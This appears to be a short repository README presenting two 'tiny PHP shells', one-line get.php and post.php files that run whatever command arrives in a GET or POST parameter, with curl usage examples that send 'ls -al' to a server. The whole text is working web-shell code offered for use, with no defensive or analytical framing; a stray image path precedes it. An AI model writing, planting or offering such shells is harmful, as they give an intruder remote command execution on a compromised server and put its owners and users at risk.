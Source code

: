 ## Tiny PHP GET shell
#### get.php:
```php
<?=`$_GET[1]`;
```

#### Usage:
```
curl example.com/get.php?1=ls+-al
```

## Tiny PHP POST shell

#### post.php:
```php
<?=`$_POST[1]`;
```

#### Usage:
```
curl example.com/post.php -d '1=ls+-al'
```
